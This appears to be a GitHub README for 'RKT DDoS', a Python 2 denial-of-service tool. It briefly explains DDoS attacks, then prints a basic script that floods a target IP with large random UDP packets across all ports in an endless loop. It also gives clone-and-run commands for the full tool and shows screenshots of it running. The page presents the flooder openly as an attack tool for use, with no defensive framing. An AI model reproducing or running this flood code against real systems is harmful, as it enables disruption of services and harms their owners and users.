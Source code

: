 [![MIT](https://img.shields.io/packagist/l/doctrine/orm.svg)](https://github.com/r3k4t/rktddos/blob/master/LICENSE) 
[![python](https://img.shields.io/badge/python-2.7-orange.svg)](https://www.python.org/download/releases/2.7/)


<h2>RKT DDoS</h2>

<h4>Author : RKT</h4>

### Descripton ###

![DDOS Attack-compressed](https://user-images.githubusercontent.com/69615463/96414395-b0326e00-120a-11eb-832a-a66f32b6f2dd.jpg)


### DDos(Distributed Denial-Of-Service) ###

A distributed denial-of-service (DDoS) attack is a malicious attempt to disrupt the normal traffic of a targeted server, service or network by overwhelming the target or its surrounding infrastructure with a flood of Internet traffic.

DDoS attacks achieve effectiveness by utilizing multiple compromised computer systems as sources of attack traffic. Exploited machines can include computers and other networked resources such as IoT devices.

From a high level, a DDoS attack is like an unexpected traffic jam clogging up the highway, preventing regular traffic from arriving at its destination.


### Python DDoS Code(Basic) ###

>>>import socket
<br>
>>>import random
<br>
>>>rkt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
<br>
>>>bytes = random._urandom(51200)
<br>
>>>ip   = "127.0.0.1"
<br>
>>>port = 80
<br>
>>>sent = 0
<br>
>>>while True:
      <br>
>>> ...  rkt.sendto(bytes,(ip,port))
       <br>
>>> ...  sent = sent + 1
       <br>
>>> ...  port = port + 1
       <br>
>>> ...  print "SENT %s PACKET TO %s THROUGHT PORT:%s" % (sent,ip,port)
       <br>
>>> ...  if port == 65535:
       <br>   
>>> ...   port = 1
  

#### Tested On ###

<ul>
<li>Ubuntu</li>
<li>Kali Linux</li>
<li>Linuxmint</li>
<li>Parrot Os</li>
</ul>


### Setup ###

<ul>
<li>sudo pip2 install requirements.txt</li>
</ul> 

### Terminal Command ###

<ul>
<li>git clone https://github.com/r3k4t/rktddos.git</li>
<li>cd   rktddos          </li>
<li>sudo python2 rktddos.py</li>
</ul>

### Screentshots ###

![Screenshot at 2020-10-19 12-54-05](https://user-images.githubusercontent.com/69615463/96414279-8aa56480-120a-11eb-82c0-4833bd7dba4a.png)

Next

![Screenshot at 2020-10-19 12-54-22](https://user-images.githubusercontent.com/69615463/96414316-96912680-120a-11eb-8e82-7b68da167f4c.png)


Next


![Screenshot at 2020-10-19 12-54-27](https://user-images.githubusercontent.com/69615463/96414350-a14bbb80-120a-11eb-8a39-368429a790ef.png)







